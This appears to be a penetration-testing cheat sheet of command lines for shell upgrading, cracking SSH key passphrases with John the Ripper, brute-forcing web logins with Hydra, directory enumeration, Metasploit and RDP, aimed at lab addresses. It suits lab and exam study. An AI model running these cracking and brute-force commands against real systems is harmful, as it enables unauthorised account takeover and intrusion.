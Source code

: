 ## upgrade shells 
upgrading simple shells ropnop blog
```c
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo                                     // disables visible input, so fg has to be typed blind 
fg	
```

## john
```c
/usr/share/john/ssh2john.py joanna_rsa > hash			        // create hash from pw encrypted key 
john hash --wordlist=/usr/share/wordlists/rockyou.txt pw.txt	// crack hash
john --rules --wordlist=/usr/share/wordlists/rockyou.txt pw.txt
john --show pw.txt
```

## hydra
__copy paste URL & cookies from burp request__
```py
export HYDRA_PROXY=connect://127.0.0.1:8080                             # enable proxy
unset HYDRA_PROXY                                                       # disable proxy
hydra 10.10.10.1 http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -l root@localhost -P otrs-cewl.txt -vV -f
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.1 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"	                                        # just copy paste site & cookies from burp request POST value and PARAMs
```

## gobuster
```c
gobuster dir -u 10.10.10.1 -w /opt/SecLists-master/Discovery/Web-Content/common.txt -x .php,.html,.txt -t 35 -s "200,204,301,302,307"
```

## metasploit
```c
edit 			// edit current exploit
reload 			// reload exploit after edit
```

## RDP xfreerdp
```c
xfreerdp /v:10.10.10.1 /u:john /p:Password123! +clipboard
rdesktop 10.10.10.1
```

## nishang
```c
ls nishang/Shells
```
